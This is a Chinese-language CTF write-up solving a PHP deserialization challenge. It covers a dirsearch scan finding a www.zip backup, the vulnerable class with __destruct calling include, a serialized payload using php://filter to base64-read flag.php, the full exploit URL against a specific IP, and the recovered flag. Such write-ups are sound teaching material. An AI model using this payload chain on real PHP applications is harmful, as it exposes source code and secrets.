



利用dirsearch扫描网站目录，扫到网站备份文件www.zip



下载之后发现源码存在反序列化

```
<?php
class r00t{
    public $username;
    public $file;
    public function __wakeup(){
        $this->username = "www";
    }
    public function __destruct(){
        if($this->username = "root"){
            include($this->file);
        }
    }
}
unserialize($_GET['code']); 
```

构造利用链，去读取扫到的flag.php文件内容

```
<?php
class r00t{
    public $username="root";
    public $file="php://filter/convert.base64-encode/resource=flag.php";
}
$a=new r00t();
echo serialize($a);
```

poc

```
O:4:"r00t":2:{s:8:"username";s:4:"root";s:4:"file";s:52:"php://filter/convert.base64-encode/resource=flag.php";}
```

获取flag

```
http://59.110.139.6:8000/wakeup.php?code=O:4:%22r00t%22:2:{s:8:%22username%22;s:4:%22root%22;s:4:%22file%22;s:52:%22php://filter/convert.base64-encode/resource=flag.php%22;}
```



base64解密

```
<?php
$flag = "flag{Really_do_not_want_to_get_up}";
```

